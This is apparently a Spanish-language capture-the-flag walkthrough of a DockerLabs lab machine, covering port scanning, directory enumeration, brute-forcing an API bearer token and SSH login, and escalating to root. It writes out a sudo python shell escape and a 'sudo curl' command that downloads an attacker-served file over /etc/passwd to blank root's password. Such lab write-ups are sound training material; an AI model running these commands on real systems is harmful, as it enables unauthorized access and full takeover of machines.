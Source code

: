 nmap: 22, 5000

![image](https://github.com/user-attachments/assets/ebd72e6c-0cae-4a3a-a87b-32bd4d6d0d17)

entramos a la pagina por el puerto 5000

![image](https://github.com/user-attachments/assets/811b2243-4273-4387-9dc2-b4026ae5c599)

en la pagina nos da un código:

![image](https://github.com/user-attachments/assets/01e2fd20-e3b2-45c1-b936-a64d0e668314)

que si lo probamos da

![image](https://github.com/user-attachments/assets/6cd6e0a2-07ab-4874-be96-ca4646d644df)

nada interesante en si. pero en la pagina veremos algo, que cada ejemplo de API por ejemplo, GET O POST y así, tienen como comienzo "/api"

![image](https://github.com/user-attachments/assets/61cb2c5e-63f7-4eb6-abf2-0d7dcadce5e8)

hacemos un gobuster

![image](https://github.com/user-attachments/assets/05c80861-d4eb-4b1b-a349-56cdcd0beaad)

y nos da "users", lo probamos

![image](https://github.com/user-attachments/assets/f63bc726-1636-48bd-a84e-69a8bb5b039b)

pero la verdad no da mucho mas, buscamos alguna forma de explotar esto, buscamos alguna explotación de "APIs"  y encontre esta: https://github.com/Maalfer/bruteapi/blob/main/bruteapi.sh
que es un .sh, así que nos copiamos el código, creamos un .sh y le damos permisos de ejecución.  

como de por si el ".sh" no esta funcionando o dando algo, lo lanzamos con el comando que nos dio la pagina al principio

     curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto

pero medicando para que me de alguna respuesta diferente porque de por si el, ".sh"  es para hacer fuerza bruta, pero basados en el código que nos dieron.  lanzamos

     bash exploit.sh http://172.17.0.2:5000/api/users /usr/share/wordlists/rockyou.txt

![image](https://github.com/user-attachments/assets/4acb1075-cd47-42e6-9fdb-43ba010f6058)

![image](https://github.com/user-attachments/assets/b6c688fc-31f7-49db-82ea-b472b35e5996)

obtenemos la contraseña

     password1

y utilizamos la opción 2 que es `Bearer Token`, lo que intentara dar como una ¨coincidencia¨  

entonces si lanzamos el comando

     curl -H "Authorization: Bearer password1" http://172.17.0.2:5000/api/users

![image](https://github.com/user-attachments/assets/cb1e8a2d-6a50-400c-9fe9-a9e905f123b2)

cambiamos en el código la "password_secreta" por la contraseña encontrada, cambiamos la IP a la de la maquina victima y "directorio_oculto" por "users" que fue lo que nos dio el gobuster. 
entonces obtenemos dos nombres 

     bob y dylan

hacemos una fuerza bruta:

![image](https://github.com/user-attachments/assets/fcfaa2e0-7165-4d07-a781-bdd9f0ff1eb5)

obtenemos a "bob" y "password1" y tenemos la conexion

![image](https://github.com/user-attachments/assets/ae41145a-bf80-43de-a64e-404bc3e0ca35)

dentro tenemos esto

![image](https://github.com/user-attachments/assets/a120b915-9440-4141-863f-60d680423e99)

un python3 y un "app.py", buscamos el de python3 https://gtfobins.github.io/gtfobins/python/#sudo

![[dockerlabs/medio/apiroot/gtf.png]]

lanzamos

     sudo -u balulero python3 -c 'import os; os.system("/bin/sh")'

y somos el usuario balulero

![[dockerlabs/medio/apiroot/usuario2.png]]

tenemos dentro un curl 

![[dockerlabs/medio/apiroot/curl.png]]

lo buscamos en gtf igual

![[dockerlabs/medio/apiroot/conexion2.png]]

y tendremos que abrir un servidor y clonar en este caso el archivo "passwd" 

![[la x.png]]

entonces copiamos el archivo de passwd desde la carpeta victima y en nuestra terminal le sacamos la "x" entonces ahora vamos a pasar desde nuestra maquina a la victima el archivo modificado desde un servidor como nos indica lo de FTFOBINS. 

abrimos el servidor 

     python3 -m http.server 

en la terminal victima colocamos 

    URL=http://172.17.0.1:8000/passwd
    LFILE=/etc/passwd
    sudo curl $URL -o $LFILE

entonces tendremos algo así 

![[server.png]]

ahora verificamos que se remplazo el archivo por el modificado

![[dockerlabs/medio/apiroot/root1.png]]

y vemos que no tiene la "x" así que se modifico correctamente, ahora haremos un "su root"

![[dockerlabs/medio/apiroot/rootf.png]]

y somos root! 
